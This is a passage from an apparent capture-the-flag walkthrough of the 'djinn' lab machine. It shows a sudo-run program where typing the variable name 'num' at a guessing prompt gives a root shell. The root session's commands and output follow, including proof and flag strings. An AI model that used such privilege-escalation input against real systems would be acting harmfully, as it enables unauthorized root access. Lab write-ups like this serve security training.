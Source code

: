 Let's try introducing _num_ in the input:

```Shell
sam@djinn:~$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: num
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
lago  proof.sh
# chmod u+x proof.sh
# ./proof.sh
    _                        _             _ _ _ 
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/       
djinn pwned...
__________________________________________________________________________

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc
Path: /root
Date: Wed Sep 7 00:34:14 IST 2022
Whoami: root
__________________________________________________________________________

By @0xmzfr

Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)
# cat /home/nitish/user.txt
10aay8289ptgguy1pvfa73alzusyyx3c

```
